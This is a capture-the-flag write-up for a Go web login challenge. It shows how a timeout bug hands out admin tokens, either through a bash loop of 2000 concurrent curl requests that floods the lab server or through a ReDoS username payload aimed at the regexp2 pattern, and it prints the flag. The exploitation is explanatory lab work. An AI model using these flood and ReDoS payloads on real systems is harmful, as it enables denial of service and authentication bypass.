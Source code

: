 # Diary #1

The challenge is a variant of `Diary`. It only differs by patching the SQL injection.

This version runs on the `23689`. 

For more info, see [Diary](../Web_Diary/WRITEUP.md).

# Timeout

The user validation is not handling timeouts very well. On timeout it still returns the userID, which would generate a valid token for the admin user.


```go
func validateUser(creds Credentials) (int, error) {
	var userID int
    //redacted
	ctx, cancel := context.WithTimeout(context.Background(), 5*time.Second)
	defer cancel()
    //redacted
	go func() {
			usernameRegex := regexp2.MustCompile(`^\s*([a-zA-Z0-9]+)*\s*$`, 0)
			if m, _ := usernameRegex.FindStringMatch(creds.Username); m != nil {
				gps := m.Groups()
				username = gps[1].Captures[0].String()
			}
  			//redacted
	}()

	select {
	case err := <-queryResult:
		if err != nil {
			return -1, errors.New("no user found")
		}
	case <-ctx.Done():
		return userID, err
	}
	return userID, nil
}

```

As an easy solution, flooding the server for a few seconds would cause the server to timeout and handle out tokens. 

After local testing, ~2000 requests should be enough to stall the server a little, but won't overload it for more than a few seconds.

```bash
for i in {1..1000}; do (curl -s 'http://10.10.1.10:23689/login' -X POST --data-raw '{"username":"admin","password":"a"}' | grep token) & done
for i in {1..1000}; do (curl -s 'http://10.10.1.10:23689/register' -X POST --data-raw '{"username":"admin","password":"a"}' > /dev/null) & done
```

![](screenshots/1.png)

Using any of the tokens would log in as the admin.

![](screenshots/2.png)

With access to the flag.

![](screenshots/3.png)

# Flag

`CQ24{4r3_They_ReallY_SaFe_d0E?}`

# Regex

The regex library is not the default. 

```
Regexp2 is a feature-rich RegExp engine for Go. It doesn't have constant time guarantees like the built-in regexp package, but it allows backtracking and is compatible with Perl5 and .NET.
```

Abusing the regex pattern `^\s*([a-zA-Z0-9]+)*\s*$` for catastrophic backtracking can also timeout the server.

There is an offline tool that can be installed via pip to check and exploit regexes: [regexploit](https://pypi.org/project/regexploit/). Alternatively <https://devina.io/redos-checker> can be also used as an online tool.

```bash

echo '^\s*([a-zA-Z0-9]+)*\s*$' | regexploit
```

```
Redos(starriness=11, prefix_sequence=SEQ{ [SPACE]{0+} }, redos_sequence=SEQ{ [[a-z],[0-9],[A-Z]]{1+}{0+} [SPACE]{0+} $[20,a0,[a-z],[0-9],[09-0d],[A-Z]] }, repeated_character=[[a-z],[0-9],[A-Z]], killer=[^20,a0,[a-z],[0-9],[09-0d],[A-Z]])
Worst-case complexity: 11 * * * * * * * * * * (exponential)
Repeated character: [[a-z],[0-9],[A-Z]]
Final character to cause backtracking: [^20,a0,[a-z],[0-9],[09-0d],[A-Z]]
Example: '0' * 3456 + '!'
```

There is a check that the regex length should be less than or equal 32, so a minor tweak would be required, but it is still running long enough to trigger a timeout.

```bash
curl -s 'http://10.10.1.10:23689/login' -X POST --data-raw '{"username":"0000000000000000000000000000000!","password":"a"}'
```

This handles out a token the same way the flood does, but more cleanly.
